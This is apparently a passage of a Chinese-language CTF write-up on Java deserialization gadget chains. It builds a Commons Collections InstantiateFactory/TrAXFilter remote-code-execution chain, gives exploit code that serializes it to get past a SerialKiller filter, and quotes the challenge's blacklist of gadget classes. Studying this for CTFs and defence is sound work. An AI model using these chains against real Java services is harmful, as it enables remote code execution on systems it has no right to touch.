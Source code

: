 而 FactoryTransformer 中的 transform 方法又可以调用 create。
```java
    public Object transform(Object input) {
        return this.iFactory.create();
    }
```
这样就可以得到一条新的利用链：
```java
public static Transformer instantiateFactory2RCE(String cmd) throws Exception {
    Transformer transformer = new FactoryTransformer(new InstantiateFactory(
            TrAXFilter.class,
            new Class[] { Templates.class },
            new Object[] {GTemplates.getEvilTemplates(cmd)} ));
    return transformer;
}
```

EXP：
```java
HashMap hashMap = GCC.getValue2TransformerInvoke(GCC.instantiateFactory2RCE("mate-calc"));

Object expObj = GBadAttributeValueExpException.deserialize2ToString(hashMap);

byte[] exp = SerializeUtils.serialize(expObj);

System.out.println("--------");

SerializeUtils.serializeKillerDeserialize(exp,"filter/mrctf2022.ezjava.xml");
```

### 代替 LazyMap

CISCN_2022 loveme 这道题的 waf 如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
    <refresh>6000</refresh>
    <mode>
        <!-- set to 'false' for blocking mode -->
        <profiling>false</profiling>
    </mode>
    <logging>
        <enabled>false</enabled>
    </logging>
    <blacklist>
        <!-- ysoserial's CommonsCollections1,3,5,6 payload  -->
        <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.InvokerTransformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.ConstantTransformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.InstantiateFactory$</regexp>
        <regexp>com\.sun\.org\.apache\.xalan\.internal\.xsltc\.traxTrAXFilter$</regexp>
        <regexp>org\.apache\.commons\.collections\.functorsFactoryTransformer$</regexp>
        <!-- ysoserial's CommonsCollections2,4 payload  -->
        <regexp>org\.apache\.commons\.collections4\.functors\.InvokerTransformer$</regexp>
        <regexp>org\.apache\.commons\.collections4\.functors\.ConstantTransformer$</regexp>
        <regexp>org\.apache\.commons\.collections4\.comparators\.TransformingComparator$</regexp>
        <regexp>org\.apache\.commons\.collections4\.functors\.InstantiateFactory$</regexp>
        <regexp>org\.apache\.commons\.beanutils\.BeanComparator$</regexp>
        <regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.functors\.InvokerTransformer$</regexp>
        <regexp>org\.apache\.commons\.collections\.map\.LazyMap</regexp>
        <regexp>com\.sun\.rowset\.JdbcRowSetImpl$</regexp>
        <regexp>java\.rmi\.registry\.Registry$</regexp>
        <regexp>java\.rmi\.server\.ObjID$</regexp>
```